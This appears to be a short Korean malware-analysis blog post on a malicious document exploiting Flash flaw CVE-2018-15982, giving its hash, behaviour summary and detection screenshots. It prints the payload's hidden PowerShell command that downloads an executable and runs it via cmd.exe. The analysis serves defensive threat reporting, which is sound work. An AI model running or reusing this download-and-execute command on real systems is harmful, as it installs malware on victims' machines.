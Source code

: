 ```yaml
---
layout: post
title: MalShorts - CVE-2018-15982
subtitle: MalShorts
categories: Shorts
tags: [Shorts]
sidebar: []
---
```

### MalShorts : CVE-2018-15982
# MalShorts : CVE-2018-15982

### **멀웨어 정보**

SHA-256 : abf89220afcba53f4f9375e7bbee6495153be5bd623ad7218a9db00c877fc54a

Feature : #Exploit #CVE-2018-15982



### 주요 행위 및 분석가 한줄평

- 주요 행위
    - 문서 파일 열람 시 취약점을 악용한 플래시 파일이 실행되어 악성 행위 실행
- 실행되는 악성 행위
    - `C:\WINDOWS\system32\\WindowsPowerShell\v1.0\powershell.exe -WindowStyle Hidden (New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/putty.exe','mess.exe');cmd.exe /c mess.exe`
- 분석가 한줄평
    - 취약점을 악용한 플래시파일을 통해 악성 파워쉘 스크립트를 실행시키는 악성 문서파일



### **MARS Defender에서 추출한 위협 포인트**

![image-20231010-012550.png](/assets/images/MalShorts-CVE-2018-15982/image-20231010-012550.png)


### **MARS Defender 탐지 내역**

![image-20231010-012622.png](/assets/images/MalShorts-CVE-2018-15982/image-20231010-012622.png)


#### [MARSDefender 탐지 보고서(Link)](https://marsdefender.seculetter.com/?hash=abf89220afcba53f4f9375e7bbee6495153be5bd623ad7218a9db00c877fc54a)
